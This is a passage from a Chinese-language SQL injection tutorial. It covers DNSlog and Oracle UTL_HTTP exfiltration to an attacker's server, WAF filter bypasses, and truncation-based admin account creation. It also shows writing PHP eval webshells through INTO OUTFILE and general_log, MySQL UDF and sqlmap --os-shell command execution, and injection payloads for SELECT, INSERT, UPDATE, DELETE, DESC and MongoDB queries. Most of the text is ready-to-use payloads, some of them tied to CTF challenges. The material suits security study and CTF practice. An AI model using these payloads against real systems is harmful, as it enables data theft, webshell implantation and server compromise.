5.  使用 load\_file 访问该 UNC

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select concat(to_base64(substr(load_file("xxx"),1,15)), "dnslog.com") as result<br>``` |

技巧

oracle 数据库中，存在发起 HTTP 请求的函数 UTL\_HTTP.request

`UTL_HTTP.request(url, proxy)`

它的返回类型是长度为 2000 或更短的字符串，它包含从 HTTP 请求返回到参数 URL 的 HTML 结果的前 2000 个字节

通过 SQL 注入让目标服务器执行：

`select UTL_HTTP.request('http://IP/test.php'||'?id='||(select version from v$instance)) from dual;`

在攻击人员的 test.php 上记录 id 参数传递过来的数据，并写入文件中

## [](#9-waf-%E7%BB%95%E8%BF%87)9 WAF 绕过

### [](#91-and-%E5%92%8C-or-%E7%BB%95%E8%BF%87)9.1 and 和 or 绕过

过滤代码：`preg_match('/(and|or)/i', $id)`

绕过：利用 `||` 代替 `or`，`&&` 代替 `and`

### [](#92-union-%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.2 union 过滤绕过

过滤代码：`preg_match('/(and|or|union)/i', $id)`

绕过：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>\| (select user from users where user_id=1)='admin'<br>``` |

问题

怎么知道 user 表、user 列、admin 字段？

1.  表名确实可以猜解，尤其是 user 这种常用表
2.  如果猜不到，通过 `information_schema.tables` 及 `substr` 来联合判断
3.  列名和字段内容也是同理

### [](#93-where-%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.3 where 过滤绕过

过滤代码：`preg_match('/(and|or|union|where)/i', $id)`

绕过：`|| (select user from users limit 1,1)='admin'`

### [](#94-limit-%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.4 limit 过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit)/i', $id)`

绕过：`|| (select min(user) from group by user_id having user_id=1 ='admin'`

### [](#95-group-by-%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.5 group by 过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit|group by)/i', $id)`

绕过：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>\|(select substr((select group_concat(name)name from test), 1, 1))='t'<br>``` |

### [](#96-select-%E5%8F%8A%E5%8D%95%E5%BC%95%E5%8F%B7%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.6 select 及单引号过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit|group by|select|\')/i', $id)`

绕过：

布尔盲注不需要 select

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```sql<br>\| substr(name,1,1)=0x74<br>\| substr(name,1,1)=unhex(74)<br>``` |

### [](#97-hexunhex-%E5%8F%8A-substr-%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87---binary)9.7 hex、unhex 及 substr 过滤绕过 - binary

过滤代码：`preg_match('/(and|or|union|where|limit|group by|select|\'|hex|unhex|substr)/i', $id)`

绕过：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>\| binary(name) = 0x74657374<br>``` |

### [](#98-%E7%A9%BA%E6%A0%BC%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.8 空格过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit|group by|select|\'|hex|unhex|substr|\s)/i', $id)`

绕过：注释符代替空格

### [](#99-%E7%AD%89%E5%8F%B7%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.9 等号过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit|group by|select|\'|hex|unhex|substr|\s| =)/i', $id)`

绕过：利用 `like、rlike、regexp、!(username<>"admin")(table_name<>'ffll44jj')` 代替等号

### [](#910-%E5%85%B6%E5%AE%83%E7%B1%BB%E5%9E%8B%E7%9A%84%E7%BB%95%E8%BF%87)9.10 其它类型的绕过

-   双写绕过
-   双重编码绕过

## [](#10-%E4%BA%8C%E6%AC%A1%E6%B3%A8%E5%85%A5)10 二次注入

问题

用户传递给 WEB 应用的数据不可信，数据库中的数据是否可信？

### [](#101-%E5%8E%9F%E7%90%86)10.1 原理


## [](#11-%E5%9F%BA%E4%BA%8E%E7%BA%A6%E6%9D%9F%E7%9A%84-sql-%E6%94%BB%E5%87%BB)11 基于约束的 SQL 攻击

### [](#111-%E5%8E%9F%E7%90%86)11.1 原理

1.  在 INSERT 中，SQL 会根据 varchar(n) 来限制字符串的最大长度。如果字符串的长度大于 n 个字符的话，那么仅使用字符串的前 n 个字符。
2.  在 SQL 中执行字符串处理时，字符串末尾的空格符将会被删除(结合上面的这里应该就可以构造出payload了)。但也有特殊情况，比如 LIKE。

问题

假设现在数据库的一个表里已经有了 admin 用户，且用户名 varchar(30)

再插入一个 **admin(25个空格) 1**

因为限制长度 30 位，所以会只存入前 30 位 这样就可以创建 admin 用户

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>insert into user values ('admin  长度超过表字段的限制被截断   1', 'pass');<br>``` |

### [](#112-%E5%AE%9E%E4%BE%8B)11.2 实例

尝试注册新用户，发现只有 admin 才能获取 flag：


通过注册页面发现 admin 用户已存在：



在 burpsuite 中修改注册数据包，将 username 字段改为如图所示的**空格 + 字符**的形式：



以 admin 身份登录，获取 flag：



## [](#12-sql-%E6%B3%A8%E5%85%A5%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C)12 SQL 注入命令执行

### [](#121-sql-%E6%B3%A8%E5%85%A5%E5%86%99%E6%96%87%E4%BB%B6)12.1 SQL 注入写文件

通过 SQL 注入，直接写入 webshell 文件到服务器，通过 GET 方法或者 POST 方法提交并执行外部指令，为后续进一步远程控制，提权，创造条件。

注意

需要 mysql 用户在写入文件夹下有写入权限，即 `secure_file_priv` 为不为空。

技巧

当`secure_file_priv` 不为空时，可以使用 general\_log 写文件：

`set global general_log=on;`

`set global general_log_file='C:/phpStudy/WWW/789.php';`

`select '<?php eval($_POST['a']) ?>';`

#### [](#1211-union-select-%E5%90%8E%E5%86%99%E5%85%A5)12.1.1 union select 后写入

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select username, password from users where id="1" union select null,'<?php @eval($_REQUEST[1]);?>' into outfile '/var/www/html/cmd.php'<br>``` |

**注意**：在 windows 下的分隔符为 /（斜杠）。

#### [](#1212-%E8%A1%8C%E5%88%86%E9%9A%94%E7%AC%A6%E5%86%99%E5%85%A5)12.1.2 行分隔符写入

通过 select 语句查询的内容写入文件，也就是 into outfile ‘C:/wamp64/www/work/webshell.php’ 这样写的原因，然后利用 lines terminated by 语句拼接 webshell 的内容。

lines terminated by 可以理解为「以每行终止的位置添加 xx 内容」。

利用 lines starting by 语句拼接webshell的内容。lines starting by 可以理解为「以每行开始的位置添加 xx 内容」。

利用 fields terminated by 语句拼接webshell的内容。fields terminated by 可以理解为「以每个字段的位置添加 xx 内容」。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```sql<br>// lines terminated by 写入<br>?id=1 limit 1 into outfile 'C:/wamp64/www/work/webshell.php' lines terminated by '<?php phpinfo() ?>';<br><br>// lines starting by 写入<br>?id=1 limit 1 into outfile 'C:/wamp64/www/work/webshell.php' lines starting by '<?php phpinfo() ?>';<br><br>// fields terminated by 写入<br>?id=1 into outfile 'C:/wamp64/www/work/webshell.php' fields terminated by '<?php phpinfo() ?>';<br><br>// COLUMNS terminated by 写入<br>?id=1 limit 1 into outfile 'C:/wamp64/www/work/webshell.php' COLUMNS terminated by '<?php phpinfo() ?>';<br>``` |

### [](#122-%E7%94%A8%E6%88%B7%E8%87%AA%E5%AE%9A%E4%B9%89%E5%87%BD%E6%95%B0---udf)12.2 用户自定义函数 - UDF

还可以利用「用户自定义函数」的方式，即 User Defined Functions(UDF) 来执行命令。通过 lib\_mysqludf\_sys 提供的函数可以执行**系统命令**关键语句:

-   **sys\_eval()**，执行任意命令，并将输出返回
    
-   sys\_exec()，执行任意命令，并将返回码返回
    
-   sys\_get()，获取一个环节变量
    
-   sys\_set()，创建或修改一个环境变量
    

#### [](#1221-udf-%E5%BA%93%E6%96%87%E4%BB%B6%E8%8E%B7%E5%8F%96)12.2.1 UDF 库文件获取

[https://github.com/mysqludf/lib\_mysqludf\_sys](https://github.com/mysqludf/lib_mysqludf_sys)

sqlmap/data/udf/mysql/

sqlmap 下的文件经过编码，需要使用 sqlmap/extra/cloak 目录下的 cloak.py 文件进行解码

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br># 解码文件<br>python cloak.py -d -i /path/to/sqlmap/data/udf/mysql/linux/64/lib_mysqludf_sys.so_ -o lib_linux.so<br>``` |

#### [](#1222-udf-%E5%BA%93%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5)12.2.2 UDF 库文件写入

将 so 文件转成 16 进制，以 16 进制编码形式写入

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select unhex('???') into dumpfile '/usr/lib/mysql/plugin/lib_linux.so'<br>``` |

#### [](#1223-dumpfile-vs-outfile)12.2.3 dumpfile vs. outfile

若我们想把一个可执行 2 进制文件用 into outfile 函数导出事实上导出后就会被破坏。

因为 into outfile 函数会在行末端写入新行，更致命的是会转义换行符，这样的话这个 2 进制可执行文件就会被破坏。

这时候我们用 into dumpfile 就能导出一个完整能执行的 2 进制文件 into dumpfile 函数不对任何列或行进行终止，也不执行任何转义处理。

#### [](#1224-%E8%87%AA%E5%AE%9A%E4%B9%89%E5%87%BD%E6%95%B0)12.2.4 自定义函数

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```sql<br>create function sys_eval returns string soname "lib_linux.so";<br>select sys_eval('ifconfig');<br>``` |

### [](#123-%E8%87%AA%E5%8A%A8%E5%8C%96%E5%B7%A5%E5%85%B7)12.3 自动化工具

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>sqlmap -u "url" --os-shell<br>sqlmap -u "url" --os-cmd=ifconfig<br>``` |

## [](#13-%E6%B3%A8%E5%85%A5%E6%8A%80%E5%B7%A7)13 注入技巧

从 SQL 语法角度，从不同的注入点位置说明 SQL 注入的技巧

### [](#131-select-%E6%B3%A8%E5%85%A5)13.1 SELECT 注入

> select 语句用于数据表记录的查询，常在界面展示的过程中使用

#### [](#1311-%E6%B3%A8%E5%85%A5%E7%82%B9%E5%9C%A8-select_expr)13.1.1 注入点在 select\_expr

源代码如下所示：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```php<br><?php<br>    $conn = mysqli_connect("127.0.0.1", "root", "root", "test");<br>	$res = mysqli_query($conn, "SELECT ${_GET['id']}, content FROM wp_news");<br>	$row = mysqli_fetch_array($res);<br>	echo "$row['title']";<br>	echo "$row['content']";<br>?><br>``` |

可以采取时间盲注的方式，但是根据 MySQL 的语法，有更优的解决方法，即利用 AS 别名的方法，直接将查询的结果显示到界面中。

**payload**：`?id=(select pwd from wp_user as title)`

#### [](#1312-%E6%B3%A8%E5%85%A5%E7%82%B9%E5%9C%A8-table_reference)13.1.2 注入点在 table\_reference

上文的 SQL 查询语句改为：`$res = mysqli_query($conn, "SELECT title FROM ${_GET['table']}");`

仍然可以利用别名的方式直接取出数据

`select title from (select pwd AS title from wp_user)x`

技巧

在不知表名的情况下，可以先从 information\_schema.tables 中查询表名。

在 select\_expr 和 table\_reference 的注入，如果注入的点有反引号包裹，那么需要先闭合反引号。

#### [](#1313-%E6%B3%A8%E5%85%A5%E7%82%B9%E5%9C%A8-where-%E6%88%96-having-%E5%90%8E)13.1.3 注入点在 WHERE 或 HAVING 后

SQL 语句：`$res = mysqli_query($conn, "SELECT title FROM wp_news WHERE id=${_GET[id]}")`

实战中最常遇到的情况，要先判断有无引号包裹，再闭合前面可能存在的括号，即可进行注入来获取数据。注入点在 HAVING 后的情况与之相似。

#### [](#1314-%E6%B3%A8%E5%85%A5%E7%82%B9%E5%9C%A8-group-by-%E6%88%96-order-by-%E5%90%8E)13.1.4 注入点在 GROUP BY 或 ORDER BY 后

##### [](#13141-%E5%88%A9%E7%94%A8%E6%8A%A5%E9%94%99)13.1.4.1 利用报错

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select * from wp_user_ order by 1\|updatexml(1,concat(0x7e,database(),0x7e),0)<br>``` |

1105 - XPATH syntax error: ‘~sectest~’, Time: 0.000000s

##### [](#13142-%E5%88%A9%E7%94%A8%E5%BB%B6%E6%97%B6)13.1.4.2 利用延时

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>$res = mysqli_query($conn, "SELECT title FROM wp_news GROUP BY ${_GET['title']}");<br>``` |

经过测试可以发现，`?title=id desc,(if(1，sleep(1),1))` 会让页面迟 1 秒，于是可以利用时间注入获取相关数据。

警告

该方法只能用在 mysql 5 上，mysql 8 上失效。

##### [](#13143-%E5%88%A9%E7%94%A8----%E4%BD%8D%E8%BF%90%E7%AE%97%E7%AC%A6%E8%BF%9B%E8%A1%8C-order-by)13.1.4.3 利用 & | ^ 位运算符进行 order by

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```sql<br>// 布尔型盲注<br>select * from wp_user_ order by id\|(if(1,2,1))<br><br>//id 和 if 返回的结果进行按位与进行 order by 根据时间判断<br><br>select * from wp_user_ order by 1\|if(database() regexp "sectest",sleep(1),0)<br>``` |

##### [](#13144-%E5%88%A9%E7%94%A8%E6%8B%AC%E5%8F%B7%E9%97%AD%E5%90%88%E8%BF%9B%E8%A1%8C%E8%81%94%E5%90%88%E6%9F%A5%E8%AF%A2)13.1.4.4 利用括号闭合进行联合查询

前提是前句查询必须带有括号。

`(select * from person order by 1) union (select 1,2,3)`

**Demo**

[https://chall.tasteless.eu/level1/index.php?dir=asc](https://chall.tasteless.eu/level1/index.php?dir=asc)

payload: `?dir=,3)union(select%201,flag%20from%20level1_flag)%23`

#### [](#1315-%E6%B3%A8%E5%85%A5%E7%82%B9%E5%9C%A8-limit-%E5%90%8E)13.1.5 注入点在 LIMIT 后

LIMIT 后的注入判断比较简单，通过更改数字大小，页面会显示更多或者更少的记录数。由于语法限制，前面的字符注入方式不可行（LIMIT 后只能是数字），在整个 SQL 语句没有 ORDER BY 关键字的情况下，可以直接使用 UNION 注入。

另外，可根据 SELECT 语法，通过加入 PROCEDURE 来尝试注入，这类语句只适合 MySQL 5.6 前的版本，

`select id from wp_news limit 2 procedure analyse(extractvalue(1,concat(0x7e,version())),1)`

也可以进行时间盲注

`procedure analyse((select extractvalue(1,concat(0x3a,(if(mid(version(),1,1) LIKE 5, BENCHMARK(500000, SHA(1)), 1))))),1)`

也可以直接写文件 `into outfile`

### [](#132-insert-%E6%B3%A8%E5%85%A5)13.2 INSERT 注入

通常，注入位于字段名或者字段值的地方，且没有回显信息

#### [](#1321-%E6%B3%A8%E5%85%A5%E7%82%B9%E4%BD%8D%E4%BA%8E-tbl_name)13.2.1 注入点位于 tbl\_name

如果能够通过注释符注释后续语句，则可直接插入特定数据到想要的表内，如管理员表。例如，对于如下 SQL 语句：

`$res = mysqli_query($conn, "INSERT INTO {$_GET['table']} VALUES(2,2,2,2)");`

开发者预想的是，控制 table 的值为 wp\_news，从而插入新闻表数据。由于可以控制表名，可以访问 `?table=wp_user values(2，'newadmin'，'newpass')%23`，直接插入管理员。

#### [](#1322-%E6%B3%A8%E5%85%A5%E7%82%B9%E4%BD%8D%E4%BA%8E-values)13.2.2 注入点位于 VALUES

##### [](#13221-insert-%E5%BB%B6%E6%97%B6)13.2.2.1 INSERT 延时

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>INSERT into wp_user_ (username,password,year) VALUES("test1","122","3" and sleep(1))<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122","3" & sleep(1))<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122","3" \| sleep(1))<br>``` |

##### [](#13222-insert-%E6%8A%A5%E9%94%99)13.2.2.2 INSERT 报错

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```sql<br>INSERT into wp_user_ (username,password,year) VALUES("test1","122"or updatexml(1,concat(0x7e,DATABASE()),0),1)<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122"and updatexml(1,concat(0x7e,DATABASE()),0),1)<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122"&updatexml(1,concat(0x7e,DATABASE()),0),1)<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122"\|updatexml(1,concat(0x7e,DATABASE()),0),1)<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122"+updatexml(1,concat(0x7e,DATABASE()),0),1)<br>``` |

result: 1105 - XPATH syntax error: ‘~sectest’, Time: 0.000000s

**Demo**

[http://chall.tasteless.eu/level15/](http://chall.tasteless.eu/level15/)

payload

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>insert into tables values ('\',',(select flag from level15_flag))# ')<br>``` |

-   name: `\`
-   text: `,(select flag from level15_flag))#`

### [](#133-update-%E6%B3%A8%E5%85%A5)13.3 UPDATE 注入

#### [](#1331-update-%E6%8A%A5%E9%94%99)13.3.1 UPDATE 报错

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>update wp_user_ set password="zxczxcxzc"or updatexml(1,concat(0x7e,database()),1) where id=9<br><br>update wp_user_ set password="zxczxcxzc"or(updatexml(1,concat(0x7e,database()),1)) where id=9<br>``` |

#### [](#1332-update-%E5%BB%B6%E6%97%B6)13.3.2 UPDATE 延时

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```sql<br>update wp_user_ set password="2" and sleep(1) where id=9<br><br>update wp_user_ set password="00000000" and if((LENGTH(database())=8),sleep(1),0) where id=9<br>//password处必须为数字型<br>``` |

### [](#134-delete-%E6%B3%A8%E5%85%A5)13.4 DELETE 注入

#### [](#1341-delete-%E5%BB%B6%E6%97%B6)13.4.1 DELETE 延时

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>delete from wp_user_ where id=21 or/and(sleep(2))<br><br>delete from wp_user_ where id=21 and if((LENGTH(database()=7)),sleep(2),0)<br>``` |

#### [](#1342-delete-%E6%8A%A5%E9%94%99)13.4.2 DELETE 报错

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>delete from wp_user_ where id=21 and updatexml(1,concat(0x7e,database()),1)<br>``` |

### [](#135-descibe-%E6%B3%A8%E5%85%A5)13.5 DESCIBE 注入

> {DESCRIBE | DESC} table\_name \[col\_name | wild\]
> 
> DESCRIBE 提供有关一个表的列信息。col\_name 可以是一个列名或是一个包含 SQL 通配符字符 `%`和 `_` 的字符串。

源代码：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```php<br><?php<br>require("config.php");<br>$table = $_GET['table']?$_GET['table']:"test";<br>$table = Filter($table);<br>mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();<br>$sql = "select 'flag{xxx}' from secret_{$table}";<br>$ret = sql_query($sql);<br>echo $ret[0];<br>?><br>``` |

desc 可以接受两个参数，可以过掉第一个检测。

反引号在 union select 中可以当做空格。

payload:

?table=test\`\` union select database() limit 1 offset 1

## [](#14-nosql-%E6%B3%A8%E5%85%A5)14 NoSQL 注入

### [](#141-%E5%AE%9A%E4%B9%89)14.1 定义

泛指非关系型的数据库。随着互联网 web2.0 网站的兴起，在高可用，高并发压力下，传统数据库已经不能满足需求，用于解决大数据应用和超大规模数据存储的问题。

主要代表：MongDB、 Redis、 Memcache

以 MongDB 为例，它是一个面向文档存储的数据库，以键值对形式存在

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```json<br>{<br>  name: "Geekby",<br>  age: 26,<br>  status: "A",<br>  groups: ["news", "sports"]<br>}<br>``` |

### [](#142-%E6%B3%A8%E5%85%A5%E5%8E%9F%E7%90%86%E4%B8%80)14.2 注入原理一

1.  基本语法


2.  注入过程

以用户身份验证为例，POST 请求：

`username=test&password=123456`

后端程序语言，我们希望是这样的：

`db.users.find({username: 'test', password: '123456'})`

因此，我们可以构造如下请求：

`username[$ne]=1&password[$ne]=1`

实际后端程序运行：

`db.logins.find({username:{$ne:1}, password:{$ne:1}})`

类比传统 SQL 语句：

`select * from logins where username <> 1 and password <> 1`

### [](#143-%E6%B3%A8%E5%85%A5%E5%8E%9F%E7%90%86%E4%BA%8C)14.3 注入原理二

如果在编程语言中不够谨慎，也可能产生像 sqli 注入那样的截断问题，但是这是在程序语言中而非 SQL 语句中：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```javascript<br>$script= "try{<br>	var key = db.users.find({username: 'test'}).value;<br>	var inputValue = '".$input."';<br>	if(key == inputValue) {<br>		return('match');<br>}}";<br>``` |

当输入 `';return key;//` -> `var inputValue='';return key;//'`，导致 inputValue 为空，直接返回 key 字段
